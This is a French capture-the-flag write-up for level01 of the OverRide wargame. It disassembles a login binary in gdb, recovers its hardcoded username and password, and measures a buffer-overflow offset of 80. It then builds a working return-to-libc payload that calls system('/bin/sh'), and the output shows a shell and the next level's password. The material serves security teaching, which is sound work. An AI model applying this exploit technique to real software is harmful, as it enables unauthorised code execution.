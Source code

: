# Analyse

## Binaire

`./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username:
```
`test`
```
verifying username....

nope, incorrect username...

```
## Gdb

`info function`
```asm
[...]
  0x08048464  verify_user_name
  0x080484a3  verify_user_pass
  0x080484d0  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x080484d0 <+0>:	push   ebp
   0x080484d1 <+1>:	mov    ebp,esp
   0x080484d3 <+3>:	push   edi
   0x080484d4 <+4>:	push   ebx
   0x080484d5 <+5>:	and    esp,0xfffffff0
   0x080484d8 <+8>:	sub    esp,0x60
   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax         ; memset(buffer, 0, 16);
   0x080484ef <+31>:	mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:	mov    DWORD PTR [esp],0x80486b8
   0x080484fe <+46>:	call   0x8048380 <puts@plt>             ; puts("********* ADMIN LOGIN PROMPT *********");
   0x08048503 <+51>:	mov    eax,0x80486df
   0x08048508 <+56>:	mov    DWORD PTR [esp],eax
   0x0804850b <+59>:	call   0x8048360 <printf@plt>           ; printf("Enter Username: ");
   0x08048510 <+64>:	mov    eax,ds:0x804a020
   0x08048515 <+69>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:	mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>            ; fgets(<a_user_name>, 256, <stdin>);
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>             ; if verify_user_name() == 0:   jump à <+128>  
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>             ; puts("nope, incorrect username...\n");
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>             ; jump à <+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>             ; puts("Enter Password: ");
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>            ; fgets(buffer, 100, <stdin>);
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>     
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>             ; if verify_user_pass(buffer) == 0:   jump à <+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>             ; idem mais jump à <+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>             ; puts("nope, incorrect password...\n");
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>             ; jump à <+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret
End of assembler dump.
```

`disas verify_user_name`
```asm
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	push   edi
   0x08048468 <+4>:	push   esi
   0x08048469 <+5>:	sub    esp,0x10
   0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>:	call   0x8048380 <puts@plt>                       ; puts("verifying username....\n");
   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]     ; return strcmp("dat_wil", <a_user_name>);
   0x0804848d <+41>:	seta   dl
   0x08048490 <+44>:	setb   al
   0x08048493 <+47>:	mov    ecx,edx
   0x08048495 <+49>:	sub    cl,al
   0x08048497 <+51>:	mov    eax,ecx
   0x08048499 <+53>:	movsx  eax,al
   0x0804849c <+56>:	add    esp,0x10
   0x0804849f <+59>:	pop    esi
   0x080484a0 <+60>:	pop    edi
   0x080484a1 <+61>:	pop    ebp
   0x080484a2 <+62>:	ret
End of assembler dump.
```

`disas verify_user_pass`
```asm
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>:	push   ebp
   0x080484a4 <+1>:	mov    ebp,esp
   0x080484a6 <+3>:	push   edi
   0x080484a7 <+4>:	push   esi
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]     ; return strcmp("admin", argv[1]);
   0x080484bd <+26>:	seta   dl
   0x080484c0 <+29>:	setb   al
   0x080484c3 <+32>:	mov    ecx,edx
   0x080484c5 <+34>:	sub    cl,al
   0x080484c7 <+36>:	mov    eax,ecx
   0x080484c9 <+38>:	movsx  eax,al
   0x080484cc <+41>:	pop    esi
   0x080484cd <+42>:	pop    edi
   0x080484ce <+43>:	pop    ebp
   0x080484cf <+44>:	ret
End of assembler dump.
```

# Exploit

Le programme compare le username fourni avec "dat_wil", puis le password fourni avec "admin".<br/><br/>
`./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
Quel que soit le mot de passe, il affiche "nope, incorrect password..." et return, puis de toutes façons à aucun moment il ne nous affiche le fichier .pass ou nous ouvre un shell, donc on va devoir se débrouiller tout seul.

A la différence de RainFall, OverRide nous propose une iso avec un protection sur la stack: celle-ci est [non-exécutable](https://www.usenix.org/legacy/publications/library/proceedings/sec98/full_papers/full_papers/cowan/cowan_html/node21.html):
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```

Comme nous ne pouvons plus exécuter le shellcode situé sur la stack, nous allons changer notre technique, et nous allons appeler directement la fonction system() de la libc, en lui fournissant comme argument la chaine de caractère "/bin/sh".<br/>
doc principale : https://beta.hackndo.com/retour-a-la-libc/<br/>

Tout d'abord, on note que fgets() est utilisé sans protection sur un buffer à <main+164>. On peut donc faire un buffer overflow, cherchons l'offset avec un [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
- L'EIP est réécrit avec un offset de 80. 

Notre exploit sera composé comme suit:
[ Offset de 80 (NopSled) ] [ Adresse system() ] [ Adresse retour (osef) ] [ Adresse "/bin/sh" ].

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- L'adresse de system() est 0xf7e6aed0 (\xd0\xae\xe6\xf7)

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Cette commande recherche dans une plage mémoire commençant au début de la fonction __libc_start_main() (appelée avant notre fonction main), et d’une taille de 99 999 999 octets la string "/bin/sh".
- L'adresse de "/bin/sh" est 0xf7f897ec (\xec\x97\xf8\xf7)

`(python -c 'print "dat_wil\n" + "\x90" * 80 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
/bin/sh: 3: �: not found
Segmentation fault (core dumped)
```


